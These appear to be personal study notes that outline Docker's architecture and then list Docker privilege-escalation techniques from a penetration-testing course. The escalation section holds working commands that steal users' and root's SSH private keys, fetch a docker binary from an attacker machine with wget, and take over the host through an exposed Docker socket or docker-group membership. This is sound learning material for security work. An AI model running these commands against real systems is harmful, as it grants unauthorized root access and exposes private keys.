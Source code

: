 ## Docker Architecture

**Docker Daemon
Powerhouse behind Docker, like a server
- running Docker containers
- interacting with Docker containers
- managing Docker containers on the host system
- captures container logs
- provices insight into container activities, errors, and debugging information
- monitors resource utilization, such as CPU, memory, and network usage

**Docker Clients
Through RESTful API or Unix socket, we can
- create containers
- start containers
- stop containers
- manage containers
- remove containers
- search images
- download images

**Docker Compose
Simplifies the orchestration of multiple Docker containers as a single application
Allows us to define our application's multi-containers architecture using a declarative YAML (.yaml/.yml)

**Docker Desktop
GUI

## Docker Images and Containers
Docker image is a blueprint or template for creating containers, it is read-only
We can create images using a text file called a Dockerfile
A docker container, which can be modified during runtime, is an instance of a Docker image


## Docker Privilege Escalation

**Docker Shared Directories
```shell-session
cd /hostsystem/home/cry0l1t3
ls -l
cat .ssh/id_rsa
ssh cry0l1t3@<host IP> -i cry0l1t3.priv
```
- copy key to cry0l1t3.priv 

**Docker Sockets
```shell-session
ls -al
```

**Docker binary to interact with the socket and enumerate docker containers already running
```shell-session
wget https://<parrot-os>:443/docker -O docker
chmod +x docker
ls -l
/tmp/docker -H unix:///app/docker.sock ps
```

**Access host system
```shell-session
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
/tmp/docker -H unix:///app/docker.sock ps
/tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash
cat /hostsystem/root/.ssh/id_rsa
```

**Docker Group
```shell-session
id
docker image ls
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```
- allows to control daemon or permits us to run docker as root
- works if root or docker group, or has privileges to be writable

